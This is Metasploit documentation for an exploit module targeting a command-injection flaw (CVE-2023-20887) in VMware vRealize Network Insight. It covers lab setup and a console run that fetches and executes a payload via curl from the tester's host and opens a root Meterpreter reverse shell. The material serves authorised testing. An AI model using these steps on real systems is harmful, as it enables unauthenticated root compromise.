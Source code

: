 ## Vulnerable Application

VMWare Aria Operations for Networks (vRealize Network Insight) is vulnerable to command injection
when accepting user input through the Apache Thrift RPC interface. This vulnerability allows a
remote unauthenticated attacker to execute arbitrary commands on the underlying operating system
as the root user. The RPC interface is protected by a reverse proxy which can be bypassed.
VMware has evaluated the severity of this issue to be in the Critical severity range with a
maximum CVSSv3 base score of 9.8. A malicious actor can get remote code execution in the
context of `root` on the appliance.
VMWare 6.x version are vulnerable.

This module exploits the vulnerability to upload and execute payloads gaining root privileges.
Successfully tested against version 6.8.0.

### Install

The OVA file can be downloaded from the VMware Customer Connect portal. 

1. Import the file VMware-vRealize-Network-Insight-6.8.0.1666364233-platform.ova into VMware Fusion
2. Login with the given credentials `consoleuser:console`
3. Run the `setup` command to begin setup

Starting Step 1/4: Create User Passwords
1. Enter and re-enter SSH_User_Password: `notpassword`
2. Enter and re-enter CLI_User_Password: `notpassword`

Starting Step 2/4: Network Configuration:
1. Enter IP_Family: `ipv4`
2. Enter IP_Address: `192.168.1.60`
3. Enter Default_Gateway: `192.168.1.254`
4. Enter DNS: `4.2.2.4 8.8.8.8`
5. Enter Domain_Search: `example.com`
6. Save configuration: `y`

Starting Step 3/3: Network Time Server Configuration:
1. Is the Network Time Security supported for NTP servers? `n`
2. Enter NTP servers: `0.us.pool.ntp.org`

Step 4/4: Web-Proxy (Optional Configuration)
1. Configure web proxy?: `n`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/vmware_vrni_rce_cve_2023_20887`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `set FETCH_SRVHOST [ip]`
1. Do: `run`
1. You should get a root shell.

## Options

## Scenarios

### VMware vRealize Network Insight 6.8.0 1666364233

```
msf6 > use linux/http/vmware_vrni_rce_cve_2023_20887
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set rhost 192.168.1.60
rhost => 192.168.1.60
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set lhost 192.168.1.69
lhost => 192.168.1.69
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set FETCH_SRVHOST 192.168.1.69
FETCH_SRVHOST => 192.168.1.69
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > options

Module options (exploit/linux/http/vmware_vrni_rce_cve_2023_20887):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.60     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      hHTNUdqFrV       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.1.69     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.69     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > run

[*] Started reverse TCP handler on 192.168.1.69:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.60:443 can be exploited.
[+] The target appears to be vulnerable. Target is running VMWare Aria Operations for Networks (vRealize Network Insight).
[*] Executing Unix (In-Memory) with curl -so ./hPflBCdJ http://192.168.1.69:8080/IuNTbJhCeJ7dM3CRAasGAw; chmod +x ./hPflBCdJ; ./hPflBCdJ &
[*] pop thy shell!!!
[*] Sending stage (3045348 bytes) to 192.168.1.60
[*] Meterpreter session 3 opened (192.168.1.69:4444 -> 192.168.1.60:47346) at 2023-06-16 15:02:53 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.1.60
OS           : Ubuntu 18.04 (Linux 5.4.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
